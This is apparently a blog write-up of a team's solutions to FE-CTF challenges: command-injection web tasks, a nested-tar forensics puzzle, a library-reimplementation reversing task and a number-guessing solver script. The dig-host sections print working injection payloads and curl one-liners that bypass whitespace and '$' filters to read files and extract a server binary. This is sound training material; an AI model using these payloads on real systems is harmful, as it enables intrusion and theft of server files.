






FE-CTF: CyberDemon
1. Introduction
Welcome to this write-up for the challenges that my team and I solved during FE-CTF!
This CTF had some really nice and hard challenges, and was really pwn and rev heavy, but there was a couple of other challenges for those not into pwn or rev.
This CTF was limited to a team size of 5, so me and some other admins in Jutlandia decided to give it a shot.
We had the team name 0x6a75746c616e646961646d696e73, which in ascii is:
echo 6a75746c616e646961646d696e73 | xxd -r -p
jutlandiadmins
When the CTF finished we placed 17th.
2. Dig-host-1 web
This challenge was the first of four in total.
In this challenge we were presented with simple website, where we can run dig on hosts.
As you can see below we get the standard output from dig when we enter an IP-address or host in the field.

This looks very vulnerable to what is called command injection.
As the name implies it is the act of injecting command that will then be run on the target server.
We tested this by injecting the command echo test like so:

We can get the flag by using the following oneliner:
[c3lphie@laptop:~]$ curl 'http://dig-host-1-web.hack.fe-ctf.dk/html/dig_host_level1.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0' --data-raw 'host=%3B+cat+%2Fflag' | grep flag | cut -d "<" -f 1
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0
100 1945 0 1925 100 20 8813 91 --:--:-- --:--:-- --:--:-- 8922
;; flags: qr rd ra; QUERY: 1, ANSWER: 13, AUTHORITY: 0, ADDITIONAL: 1
; EDNS: version: 0, flags:; udp: 512
flag{do people still use php?}
And there it is:
flag{do people still use php?}
3. Dig-host-2 web
This is the second part of in this collection of challenges.
There is a small hurdle in this challenge, as whitespace is removed.
But we can bypass this using the ${IFS} environment variable instead of a space character.
IFS is short for Internal Field Seperator, and is what bash uses to seperate commands.
So we changed our payload to:
;cat${IFS}/flag
Then we can just use the following oneliner to get the flag:
[c3lphie@laptop:~]$ curl -X POST 'http://dig-host-2-web.hack.fe-ctf.dk/html/dig_host_level2.php' --data 'host=;cat${IFS}/flag'| grep flag | cut -d "<" -f 1
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0
100 1960 0 1940 100 20 5797 59 --:--:-- --:--:-- --:--:-- 5868
;; flags: qr rd ra; QUERY: 1, ANSWER: 13, AUTHORITY: 0, ADDITIONAL: 1
; EDNS: version: 0, flags:; udp: 512
flag{who needs to sanitize input anyway?}
And there is the second flag:
flag{who needs to sanitize input anyway?}
4. Dig-host-3 web
This was the second last part of the dig-host challenges.
The vulnerability was the same but now $ was an illegal character.
This could be circumvented using bash redirections.
Giving us a final payload of:
;cat<./flag
[nix-shell:~]$ curl -X POST 'http://dig-host-3-web.hack.fe-ctf.dk/html/dig_host_level3.php' --data-raw "host=;cat<./flag"|grep flag | cut -d "<" -f 1 | recode html..ascii
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 980 0 964 100 16 3374 56 --:--:-- --:--:-- --:--:-- 3438
flag{it's not bug, it's a feature}
There we got the flag:
flag{it's not bug, it's a feature}
4.1. Bonus flag web rev
The third dig-host challenge had a bonus flag. But it wasn't readable by normal means.
If we look at the content of directory we can see a couple of things:

There is a bonus flag, but if we try and read it, we won't get any output.
This is most likely due to permissions.
There are two files of interest though, the dig file and dig_host_level3.php.
Content of dig_host_level3.php:
<?php require_once("../include/smarty.php"); $host = ""; $output = ""; if(isset($_POST) && is_array($_POST) && array_key_exists("host", $_POST)) { $host = preg_replace("/[\s\$-]+/", "", $_POST["host"]); exec("/dig ".$host, $output); } $smarty->assign(array( "PHP_SELF" => $_SERVER["PHP_SELF"], "host" => $host, "output" => implode("\n", $output) )); $smarty->display("dig_host_level3.tpl"); ?>
If you look at the exec call you see the original vulnerability, but the path of the dig binary isn't something standard like /usr/bin/dig.
So lets take a closer look at that!
First we can extract it using base64 with this payload:
;base64</dig
With some bash kung fu we can download it using this command:
curl -X POST 'http://dig-host-3-web.hack.fe-ctf.dk/html/dig_host_level3.php' --data-raw "host=;base64<./dig" | cut -d "<" -f 1 | xargs | sed "s/ //g" | base64 -d > dig_extract
Now that we have the binary, we can examine it further using a decompiler such as ghidra.
If we look at this snippet from the decompiled main function:
if (param_1 == 2) { local_1c = thunk_FUN_004010e6(&local_1028); for (local_1a = 0; uVar4 = (ulong)local_1a, uVar2 = thunk_FUN_004010e6(param_2[1]), uVar4 < uVar2; local_1a = local_1a + 1) { if ((((*(char *)((ulong)local_1a + param_2[1]) != '\t') && (*(char *)((ulong)local_1a + param_2[1]) != '\n')) && (*(char *)((ulong)local_1a + param_2[1]) != '\f')) && (((*(char *)((ulong)local_1a + param_2[1]) != '\r' && (*(char *)((ulong)local_1a + param_2[1]) != ' ')) && ((*(char *)((ulong)local_1a + param_2[1]) != '$' && (*(char *)((ulong)local_1a + param_2[1]) != '<')))))) { *(undefined *)((long)&local_1028 + (long)(int)(uint)local_1c) = *(undefined *)(param_2[1] + (ulong)local_1a); local_1c = local_1c + 1; if (0xffe < local_1c) break; } } *(undefined *)((long)&local_1028 + (long)(int)(uint)local_1c) = 0; uVar1 = FUN_0044dce0("/bin/bash",&local_1048); }
There is a lot of input sanitization, and after that a reference to /bin/bash.
Next up we can run strace on the binary and see what its syscalls:
[nix-shell:~]$ strace ./dig_extract google.com
execve("./dig_extract", ["./dig_extract", "google.com"], 0x7ffe10ee21b8 /* 122 vars */) = 0
brk(NULL) = 0x1931000
brk(0x1931c40) = 0x1931c40
arch_prctl(ARCH_SET_FS, 0x1931300) = 0
uname({sysname="Linux", nodename="laptop", ...}) = 0
readlink("/proc/self/exe", "/home/c3lphie/dig_extract", 4096) = 25
brk(0x1952c40) = 0x1952c40
brk(0x1953000) = 0x1953000
mprotect(0x4bc000, 12288, PROT_READ) = 0
execve("/bin/bash", ["bash", "-pc", "dig google.com"], 0x7ffcd9a8c7d0 /* 122 vars */) = -1 ENOENT (No such file or directory)
exit_group(-1) = ?
+++ exited with 255 +++
Looking at the execve call, we realised that we needed to get our payload into this call.
We tried a lot of different things, what ended up working was wrapping a payload in ' and using back tick command substitution with the commands in {} to bypass the space character.
Giving us the final payload:
'`{cat,bonus_flag}`'
Put into the following oneliner:
[nix-shell:~]$ curl -X POST 'http://dig-host-3-web.hack.fe-ctf.dk/html/dig_host_level3.php' --data-raw "host='\`{cat,bonus_flag}\`'" | grep flag | recode html..ascii | cut -d ">" -f 5- | head -n 2
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0
100 2560 0 2535 100 25 8817 86 --:--:-- --:--:-- --:--:-- 100 4035 0 4010 100 25 13762 85 --:--:-- --:--:-- --:--:-- 13818
flag{wait, i thought this was web!}
And there we go the bonus flag:
flag{wait, i thought this was web!}
5. Tar and feathers forensics
In this challenge we were given tar file containing multiple tar files nested inside.
If we start looking at the content of the contents of the tar file we'll see that it is nested tar files:
[nix-shell:~/.../fe22/tar-and-feathers]$ tar -xvf tar-and-feathers.tgz 72 [nix-shell:~/.../fe22/tar-and-feathers]$ file 72 72: POSIX tar archive (GNU) [nix-shell:~/.../fe22/tar-and-feathers]$ tar -xvf 72 75 [nix-shell:~/.../fe22/tar-and-feathers]$ tar -xvf 75 6E
The name of those tar files looks like bytes represented in hexadecimal.
We could begin to extract it manually, but that would take a large amount of time, especially because we don't know how many bytes are stored.
So we wrote a quick bash script to automate the process:
#! /usr/bin/env bash HEX_STR="" NESTED_TAR="$(tar -tf $1)" tar -xvf $1 while [[ true ]]; do HEX_STR+=$NESTED_TAR NESTED_TAR="$(tar -xvf $NESTED_TAR)" echo $HEX_STR > data.hex echo $HEX_STR done
After about 5-10 minutes the file data.hex contains all the bytes that we extracted.
In order to turn the ascii hex bytes into actual bytes, we used cyberchef:

And then downloaded the result.
Examining the result using file we can that it is another tar archive:
[nix-shell:~/.../fe22/tar-and-feathers]$ file download.dat download.dat: POSIX tar archive (GNU)
So let's extract the contents of that::
[nix-shell:~/.../fe22/tar-and-feathers]$ tar -xvf download.dat runme.py offsets.py top.png
The file runme.py has the following content:
#!/usr/bin/env python3 import os import sys import subprocess from offsets import offsets if len(sys.argv) != 2: print(f'Usage: {sys.argv[0]} <outfile>', file=sys.stderr) exit(-1) INIT = 'tar-and-feathers.tgz' def run(cmd): return subprocess.check_output(cmd, shell=True) def unpack1(name): filemagic = run(f'file {name}') if b'bzip2' in filemagic: run(f'mv {name} {name}.bz2') run(f'bunzip2 {name}.bz2') return unpack1(name) return run(f'tar xfv {name}').strip().decode() def getbyte(n): print(f'getbyte({n}) = ', end='', file=sys.stderr, flush=True) prev = None for _ in range(n + 1): next = unpack1(prev or INIT) if prev and prev != next: os.unlink(prev) try: byte = int(next, 16) except: os.unlink(next) raise prev = next os.unlink(next) print(f'0x{byte:02x}', file=sys.stderr) return byte def unpack(path): data = bytes(getbyte(offset) for offset in offsets) with file(path, 'wb') as fd: fd.write(data) unpack(sys.argv[1])
It extracts certain bytes from the first tar file by unpacking it the nested tars until it reaches an offset from the offsets.py file.
Saves the byte and then starts from the beginning.
I won't show the offsets.py file as it just contains an array of the offsets.
This takes quite some time as you might imagine.
Luckily we already have all the bytes and the offsets!
So we created this small python script to extract the bytes at our given offsets:
from offsets import offsets data = open("download.dat", "rb").read() ndata = bytes(data[offset] for offset in offsets) with open("out.bin", "wb") as f: f.write(ndata)
Running the script and checking the output:
[nix-shell:~/.../fe22/tar-and-feathers]$ python unpack.py [nix-shell:~/.../fe22/tar-and-feathers]$ file out.bin out.bin: PDF document, version 1.4, 1 pages
We find a PDF!
We renamed the file from out.bin to out.pdf and could then open it in firefox:

Aaaaand there is a black bar…. Lucky for us that bar won't stop us from copying the text underneath!
And we have the flag:
flag{it’s turtles all the way down}
6. Libnotfound rev
In this challenge we were provided with a binary that was missing library file.
We can look at the needed libraries with patchelf:
[nix-shell:~/.../fe22/libnotfound]$ patchelf --print-needed challenge libnotfound.so libc.so.6
But we have no idea what this library should do, so we started investigating the binary.
And looking closer at the main function we see a lot of asserts for functions from the library:
iVar1 = foo_add(0x19,0x11); if (iVar1 != 0x2a) { /* WARNING: Subroutine does not return */ __assert_fail("foo_add(25, 17) == 42","main.c",0x18,"main"); } iVar1 = foo_add(0x2c,0xfffffffe); if (iVar1 != 0x2a) { /* WARNING: Subroutine does not return */ __assert_fail("foo_add(44, -2) == 42","main.c",0x19,"main"); } iVar1 = foo_sub(0x35,0xb); if (iVar1 != 0x2a) { /* WARNING: Subroutine does not return */ __assert_fail("foo_sub(53, 11) == 42","main.c",0x1a,"main"); } iVar1 = foo_sub(0x27,0xfffffffd); if (iVar1 != 0x2a) { /* WARNING: Subroutine does not return */ __assert_fail("foo_sub(39, -3) == 42","main.c",0x1b,"main"); } iVar1 = foo_mul(0x15,2); if (iVar1 != 0x2a) { /* WARNING: Subroutine does not return */ __assert_fail("foo_mul(21, 2) == 42","main.c",0x1c,"main"); } iVar1 = foo_div(0x7e,3); if (iVar1 != 0x2a) { /* WARNING: Subroutine does not return */ __assert_fail("foo_div(126, 3) == 42","main.c",0x1d,"main"); } iVar1 = foo_mod(0x114,0x75); if (iVar1 != 0x2a) { /* WARNING: Subroutine does not return */ __assert_fail("foo_mod(276, 117) == 42","main.c",0x1e,"main"); }
Meaning we have to implement those into our own version of the library.
This was done using the following C code:
#ifndef __libnotfound_H #define __libnotfound_H extern int foo_add(long a, long b) { return a + b; } extern int foo_sub(int a, int b){ return a - b; } extern int foo_mul(int a, int b){ return a * b; } extern int foo_div(int a, int b){ float fa = (float) a; float fb = (float) b; return (int) fa/fb; } extern int foo_mod(int a, int b){ return a % b; } #endif
We compiled this using the following two gcc commands:
gcc -c -Wall -Werror -fpic libnotfound.cA gcc -shared -o libnotfound.so libnotfound.o
Now that we have the compiled library we can use this patchelf command to use our library:
patchelf --replace-needed libnotfound.so ./src/libnotfound.so challenge
We can then check it like this:
[nix-shell:~/.../fe22/libnotfound]$ patchelf --print-needed challenge ./src/libnotfound.so libc.so.6
And then get the flag by running the binary:
[nix-shell:~/.../fe22/libnotfound]$ ./challenge
flag{hello? yes, this is flag}
7. Guessing Game omgacm
In this challenge we were basically only given a domain and port.
Connecting to it with netcat, we get the following message:
[nix-shell:~/.../fe22/guess]$ nc guess.hack.fe-ctf.dk 1337 == proof-of-work: disabled == == Welcome to Number Guess == I'm thinking of a number between 0 and 4000000 (both inclusive); try and guess which! You have 99 guesses. But! You're only allowed to guess too high 3 times. Good luck! Round #0 Your guess:
Guessing a number between 0 and 4 million seems impossible, even with 99 guesses in total because we can only guess too high 3 times.
So we have to be a little smart about it.
We used a sort of binary search, but based on percentages.
The percentage was calculated based on the following formula:
Where \(g_{high}\) is the amount guesses left that can be higher than our target number. And \(g_{low}\) is the amount of guesses that can be lower than the target.
\(g_{low}\) is calculated using:
We calculated our guess using this:
Where \(n_{min}\) is our lowest known value, and \(n_{max}\) is our highest known value.
Then after each we change \(n_{max}\) or \(n_{min}\) depending on if we are over or under the target number.
With this strategy we got pretty far, altough we didn't account for every edge cases. We did some small hacks to account for those, but we never reached 100% accuracy.
So we just kept running the script until we survived all 50 rounds.
And after many failed attempts we finally got the flag:

Final solve script:
from pwn import * import math from multiprocessing import Pool def guess(guess: int): try: res = io.readuntil("Your guess:") io.sendline(str(guess).encode()) res = io.readuntil("\n") return res.decode() except: res = io.readline() return res.decode() def calc_perc(guess_left, guess_high_left): return (guess_high_left + 1) / guess_left def strategy(_round): min_max = [0, 4000000] guess_left = total_guesses guess_low_left = total_guesses - too_high guess_high_left = too_high while True: log.info(f"============{_round}=============") _range = min_max[1] - min_max[0] try: perc = calc_perc(guess_low_left, guess_high_left) if perc != 0: _guess = math.floor(_range * perc) + min_max[0] elif perc == 1: _guess = min_max[0] else: _guess = min_max[0] +1 log.info(f"MIN MAX: {min_max}") log.info(f"RANGE: {_range}") if _range +1 <= guess_left: _guess = min_max[0] if guess_left <= 1 and _range > guess_left: _guess = min_max[0] except ZeroDivisionError as e: _guess = min_max[0] log.info(f"guesses left: {guess_left}, high left: {guess_high_left}, low left: {guess_low_left}") log.info(f"calculated percentage: {perc * 100}%") log.info(f"guess: {_guess}") answer = guess(_guess) log.info(f"answer: {answer}") if "larger" in answer: min_max[0] = _guess guess_left -= 1 guess_low_left -= 1 elif "Round" in answer: return answer elif "flag" in answer: return answer elif "loose" in answer: return answer else: min_max[1] = _guess guess_left -= 1 guess_high_left -= 1 guess_low_left = guess_left - guess_high_left return if __name__ == '__main__': io = remote("guess.hack.fe-ctf.dk", 1337) total_guesses = 99 too_high = 3 res = strategy("round 0") while True: res = strategy(res) try: if "flag" in res or "loose" in res: log.info(res) break except: pass log.info("======================NEW ROUND=========================") io.close()
8. Final words
Thank you for taking some time out of your day to read this post.
If you enjoyed this post, feel free to join my Discord server to get notification whenever I post something and ask questions if there are any.